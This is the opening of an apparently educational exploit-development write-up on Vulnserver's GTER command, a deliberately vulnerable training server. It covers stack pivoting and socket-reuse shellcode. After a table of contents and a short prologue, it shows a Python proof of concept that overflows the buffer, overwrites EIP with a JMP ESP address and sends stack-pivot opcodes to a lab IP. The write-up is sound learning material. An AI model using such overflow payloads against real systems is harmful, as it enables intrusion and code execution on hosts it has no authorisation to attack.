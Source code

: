 # Vulnserver GTER - Stack pivoting & Socket Reuse

- [Vulnserver GTER - Stack pivoting & Socket Reuse](#vulnserver-gter---stack-pivoting--socket-reuse)
  - [Prologue](#prologue)
  - [Stack pivoting](#stack-pivoting)
  - [Sockets](#sockets)
  - [Socket reusage shellcode](#socket-reusage-shellcode)
  - [Analysing socket calls](#analysing-socket-calls)
  - [Crafting file descriptor](#crafting-file-descriptor)
  - [Stack adjustment](#stack-adjustment)
  - [Crafting flag argument](#crafting-flag-argument)
  - [Crafting buffer size argument](#crafting-buffer-size-argument)
  - [Crafting buffer pointer](#crafting-buffer-pointer)
  - [Finalising the socket reuse stager](#finalising-the-socket-reuse-stager)
  - [Crafting shellcode](#crafting-shellcode)
  - [Exploitation](#exploitation)

## Prologue

In last post, we would have exploited the ```GTER``` command using stack pivots and egg hunters to perform a staged exploit

But in this post, we will be performing a staged exploit on the same GTER command along with stack pivots and ```socket reusage shellcode```

## Stack pivoting

We would have discussed about this on our previous post

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat stack-pivot.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*151
# to overwrite EIP with JMP ESP
payload+=b"\xaf\x11\x50\x62"
# stack pivot
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 stack-pivot.py 
```
